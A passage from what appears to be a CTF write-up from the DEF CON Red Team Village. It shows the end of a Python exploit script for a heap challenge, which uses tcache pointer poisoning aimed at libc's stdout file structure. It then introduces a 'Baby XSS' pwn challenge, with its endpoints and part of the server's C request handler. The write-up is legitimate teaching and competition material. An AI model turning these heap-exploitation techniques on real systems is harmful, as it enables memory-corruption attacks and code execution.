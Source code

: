 ```py
print("length:",len(bytes(fs)))

alloc(0x100, p64(MARKER) + b"first")
alloc(0x100, p64(MARKER) + b"second")
parse(1)
parse(2)
delete(1)
delete(2)

target = libc.sym._IO_2_1_stdout_
enc_ptr = target ^ ((heap_leak+0x1020) >> 12)
modify(2, p64(enc_ptr))

alloc(0x100, p64(MARKER))
alloc(0x100, bytes(fs))

p.interactive()
```

## Pwn - Baby XSS

Attached Files: [pwn-xss.zip](/assets/posts/2024-09-20-the-defcon-red-team-village-experience/pwn-xss.zip)

This challenge is more elegant and interesting than the previous challenge.

### Program Functionality

The program provided hosts a HTTP web server with a few functionalities.

1. `/feedback`
    - Allows you to pass in user input as a URL parameter
2. `/comment`
    - Allows you to pass in user input via request body
3. `/report`
    - Same as `feedback`, except the admin visits the website with your feedback

```c
struct Response* handle_request(struct Request* req, char* path) {
    struct Response* resp = (struct Response*)malloc(sizeof(struct Response));

    memset((char*)resp, 0, sizeof(struct Response));
    resp->content_type = (char*)malloc(39);
    memcpy(resp->content_type, "Content-Type: text/html;charset=utf-8\r\n", 39);

    switch (req->method) {
        case GET: {
            if (!strncmp(req->path, "/index", 6)) {
                int fd = open(TEMPLATE_PATH, O_RDONLY);
                if (fd < 0) {
                    perror("open");
                    exit(-1);
                }

                struct stat st;
                stat(TEMPLATE_PATH, &st);

                resp->status = Ok;
                resp->resp_body = (char*)malloc(st.st_size);
                // resp->content_type = (char*)malloc(39);

                read(fd, resp->resp_body, st.st_size);
            } else if (!strncmp(req->path, "/feedback?fb=", 13)) {
                char *feedback = req->path + 13;
```